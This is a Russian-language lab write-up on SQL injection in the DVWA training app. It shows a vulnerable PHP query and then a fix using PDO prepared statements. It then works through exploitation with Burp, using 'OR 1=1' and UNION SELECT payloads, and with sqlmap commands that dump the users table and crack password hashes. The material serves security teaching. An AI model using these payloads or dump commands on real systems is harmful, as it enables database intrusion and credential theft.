 # Использование статического анализатора кода для обеспечения безопасности
##  Участок кода, содержащий инъекцию SQL
Вредоносное значение может быть присвоено переменной `$id`. И затем с помощью этой переменной формируется SQL запрос:
```php
$getid = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
$result = mysqli_query($GLOBALS["___mysqli_ston"], $getid );
```
![image](https://user-images.githubusercontent.com/53438664/200193216-cf8858cf-97be-4a39-99bf-c77685f1ead9.png)
**Источники:**
- [OWASP Top 10 2021 Category A3](https://owasp.org/Top10/A03_2021-Injection/ "OWASP Top 10 2021 Category A3") - Injection
- [MITRE, CWE-20](https://cwe.mitre.org/data/definitions/20 "MITRE, CWE-20") - Improper Input Validation
- [MITRE, CWE-89](https://cwe.mitre.org/data/definitions/89 "MITRE, CWE-89") - Improper Neutralization of Special Elements used in an SQL Command

## Кодревью
Сервис статического анализа кода указал следующие проблемы в исследуемом коде:
![image](https://user-images.githubusercontent.com/53438664/200193274-b31845db-07d5-4057-9a2d-93889bdcf6ba.png)

### Не следует использовать символы табуляции
Разработчикам не нужно настраивать ширину табуляции своих текстовых редакторов, чтобы иметь возможность читать исходный код. Вместо табуляции использовать пробелы.
### Файлы должны содержать пустую новую строку в конце
Некоторые инструменты работают лучше, когда файлы заканчиваются пустой строкой.
### Исходный код должен соответствовать стандартам форматирования
Общие соглашения о кодировании позволяют команде эффективно сотрудничать. Это правило вызывает проблемы из-за несоблюдения стандарта форматирования. Значения параметров по умолчанию соответствуют стандарту PSR2.


## Исправление кода
### Предотвращение SQL инъекции
Применена технология **PDO**.
> **PDO** (PHP Data Objects — расширение для PHP, предоставляющее разработчику универсальный интерфейс для доступа к различным базам данных).

Принцип работы **PDO** заключается в том, что он отдельно отправляет инструкцию и отдельно данные, строго указывая, что данные это только данные. Другими словами, при привязке параметра через **PDO**, вы сообщаете БД, какие значения использовать при выполнении запроса. Затем **PDO** передаст значение уже скомпилированной инструкции.

Разница между параметрами привязки и простой старой строковой инъекцией заключается в том, что в первом случае значение не интерполируется, а скорее присваивается. Во время выполнения СУБД находит заполнитель и запрашивает значение для использования. Таким образом, нет никаких шансов, что кавычки или другие гадости проберутся в фактическое утверждение.
```php
$db = new PDO('mysql:host=localhost;dbname=dvwa', $user, $password);
```

В нашем запросе передаётся переменная `$id`, поэтому этот запрос в обязательном порядке должен выполняться только через подготовленные выражения.
> Подготовленные выражения в PDO - это обычный SQL запрос, в котором вместо переменной ставится специальный маркер - плейсхолдер.

PDO поддерживает именованные плейсхолдеры, для которых порядок не важен.
В данном случае используем именнованный плейсхолдер `:id`:
```php
$data = $db->prepare('SELECT first_name, last_name FROM users WHERE user_id = (:id) LIMIT 1;');
$data->bindParam(':id', $id, PDO::PARAM_INT);
$data->execute();
```
Добавлена проверка вводимого значения `$id` с помощью функции `is_numeric()`, для установления соответсивия типа числовому значению.
### Стандартизация кода
Убраны "запахи кода" в соответсвии со стандартом PSR2. PSR-2 – Рекомендации по оформлению кода.
> Цель данных рекомендаций – снижение сложности восприятия кода, написанного разными авторами; она достигается путём рассмотрения серии правил и ожиданий относительно форматирования PHP-кода.

### Результаты
![Результаты проверки кода после исправления](https://user-images.githubusercontent.com/53438664/200193379-ddd3e374-3239-47e5-b33f-181d0f8718c7.png "Результаты проверки кода после исправления")

## Burp
Настроив Burp и включив прокси в браузере при помощи предустановленных расширений мы можем начать перехватывать запросы из браузера.
В Burp Suite, можно увидеть перехваченные данные:
![image](https://user-images.githubusercontent.com/53438664/205754746-6ffa6a21-fe36-42ad-9f77-51b04c0fb191.png)

Заменим `id=1` на `id=1 OR 1=1#` (с использованием URL-encode), в ответ получим всех пользователей:

![image](https://user-images.githubusercontent.com/53438664/205754589-c2213481-1d0f-4fd0-b60f-fbb32fe6871c.png)

Произведём следующую инъекцию:
```
id=1 UNION SELECT NULL,TABLE_NAME FROM INFORMATION_SCHEMA.TABLES#
```
В ответ получим названия таблиц:

![image](https://user-images.githubusercontent.com/53438664/205755365-b612727e-18a2-404b-9bdb-3f3997e1a662.png)

Произведём следующую инъекцию:
```
id=1 UNION SELECT USER,PASSWORD FROM users#
```
В ответ получим пароли пользователей:

![image](https://user-images.githubusercontent.com/53438664/205756383-f86ea29b-c263-4c10-8d33-91e69c1a3bc1.png)

## SQLMap
Воспользуемся утилитой для поиска уязвимых параметров запроса.
```sh
sqlmap.py -u "http://dvwa.local/vulnerabilities/sqli_blind/" --data="id=1&Submit=Submit" --cookie="PHPSESSID=99gsrgjfdlsn3qn29s5oc4c76f; security=medium" -p id
```
![image](https://user-images.githubusercontent.com/53438664/205756897-01a9c86b-0c00-46b6-959b-33074863517b.png)

В результате поиска выявлена уязвимость типа _boolean-based blind_ и _time-based blind_ у параметра `id`. 
- **Boolean based Blind SQL Injection** - это техника инъекции, которая заставляет приложение возвращать различное содержимое в зависимости от логического результата (TRUE или FALSE) при запросе к реляционной базе данных.
- **Time based Blind SQL Injection** - SQL-запросы, которые вынуждают базу данных ждать определенное время, прежде чем ответить. Время ответа укажет злоумышленнику, является ли результат запроса истинным или ложным.

Получим список имеющихся баз данных с помощью команды:
```sh
sqlmap.py -u "http://dvwa.local/vulnerabilities/sqli_blind/" --data="id=1&Submit=Submit" --cookie="PHPSESSID=99gsrgjfdlsn3qn29s5oc4c76f; security=medium" -p id --dbs
```
![image](https://user-images.githubusercontent.com/53438664/205757631-3e26ad8c-e149-4094-a783-f957e27f251d.png)

Получим список имеющихся таблиц базы данных `dvwa` с помощью команды:
```sh
sqlmap.py -u "http://dvwa.local/vulnerabilities/sqli_blind/" --data="id=1&Submit=Submit" --cookie="PHPSESSID=99gsrgjfdlsn3qn29s5oc4c76f; security=medium" -p id -D dvwa --tables
```
![image](https://user-images.githubusercontent.com/53438664/205757911-51b68d62-c36c-40f0-b10d-d2ff7960e129.png)

Затем получим строки из таблицы `users`:
```sh
sqlmap.py -u "http://dvwa.local/vulnerabilities/sqli_blind/" --data="id=1&Submit=Submit" --cookie="PHPSESSID=99gsrgjfdlsn3qn29s5oc4c76f; security=medium" -p id -D dvwa -T users --dump
```
![image](https://user-images.githubusercontent.com/53438664/205758686-0ad29754-b1c9-4565-b79d-0731ea3bddbf.png)

В итоге утилита SQLmap осуществила перебор паролей по имеющимся в таблице хэшам, в результате чего вывела и пароли пользователей.
